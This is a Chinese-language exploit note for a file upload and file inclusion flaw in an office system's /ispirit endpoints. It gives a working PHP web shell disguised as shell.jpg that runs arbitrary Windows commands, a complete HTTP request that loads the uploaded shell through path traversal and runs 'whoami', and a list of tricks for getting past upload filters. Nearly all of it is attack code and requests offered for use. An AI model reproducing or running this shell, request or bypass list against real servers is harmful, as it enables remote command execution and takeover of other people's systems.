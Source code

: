 任意文件上传位置：/ispirit/im/upload.php

生成**shell.jpg：**

```javascript
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

文件包含位置：/ispirit/interface/gateway.php

```javascript
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=8phdj361a5d498n03tnqd7c104; KEY_RANDOMDATA=17743;PHPSESSID=8phdj361a5d498n03tnqd7c104;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
 
json={"url":"/general/../../attach/im/2006/209898972.shell.jpg"}&cmd=whoami
```

 ![](attachments/6aec677b-8510-4cd7-95d6-23c8313c2c25.png)

## Fuzz列表

```none
1. filename在content-type下面
2. .asp{80-90}
3. NTFS ADS
4. .asp...
5. boundary不一致
6. iis6分号截断asp.asp;asp.jpg
7. apache解析漏洞php.php.ddd
8. boundary和content-disposition中间插入换行
9. hello.php:a.jpg然后hello.<<<
10. filename=php.php
11. filename="a.txt";filename="a.php"
12. name=\n"file";filename="a.php"
13. content-disposition:\n
```